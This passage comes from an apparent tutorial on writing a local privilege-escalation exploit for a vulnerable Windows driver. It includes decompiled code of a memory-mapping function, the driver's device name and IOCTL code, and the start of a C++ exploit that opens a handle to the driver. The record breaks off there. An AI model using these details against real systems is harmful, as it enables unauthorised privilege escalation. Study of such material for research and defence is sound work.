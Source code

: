```c++
    if ( *((_DWORD *)a2 + 3) && *((_DWORD *)a2 + 3) <= 0x100u )
      v12 = sub_180002670(a1, (unsigned int)(*((_DWORD *)a2 + 3) - 1));
    Mdl = IoAllocateMdl(v12, *((unsigned int *)a2 + 2), 0i64, 0i64, 0i64);
    if ( Mdl
      && (MmBuildMdlForNonPagedPool(Mdl),
          LOBYTE(v5) = 1,
          (*((_DWORD *)a2 + 3) = *(_DWORD *)(Mdl + 44) + (MmMapLockedPages(Mdl, v5) & 0xFFFFF000)) != 0) )
    {
      *a2 = Mdl;
      return 0i64;
    }
    else
    {
      if ( Mdl )
        IoFreeMdl(Mdl);
      return 0xFFFFFFFFi64;
    }
  }
```

Now we have found the function successfully but we need to fund IOCTL which execute this function, by digging little bit in IDA for IOCTLs i have found function that has IOCTL which leading to our Vulnerable Functions




#### Exploit Writing:

Now we have understand the vulnerability let's craft the exploit for it to get shell, to craft an exploit we need few things first Driver name, IOCTL that reaches our Vulnerable Function


first let's open driver using `CreateFileA` Function
```c++
#include "windows.h"
#include <stdio.h>
#include <Psapi.h>
#include <String.h>
#include <stdlib.h>

#define DRIVERNAME "\\\\.\\HW"
#define QWORD ULONGLONG
#define IOCTL 0x9C406500

int main()
{
	DWORD index = 0;
	DWORD bytesWritten = 0;
	// Interact With Driver Handle Using
	HANDLE hDriver = CreateFileA(DRIVERNAME, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
	if (hDriver == INVALID_HANDLE_VALUE) {
		printf("[!] Error - While Creating Device Driver \n", GetLastError());
		exit(-1);
	}
    print("[+] SuccessFully Interacted With Driver \n", hDriver);
}
```
by running forllowing code we should get this output if it's not worked then check if your driver is loaded or not properly, you can check this using `Process Hacker` tool, if it's not loaded then use `OSRLoader` to load the driver then run the exploit again it should work and gonna print this output
```batch
C:\Users\Rashid\Desktop\>LPEexploit.exe
[+] SuccessFully Interacted With Driver 0xFFFF
```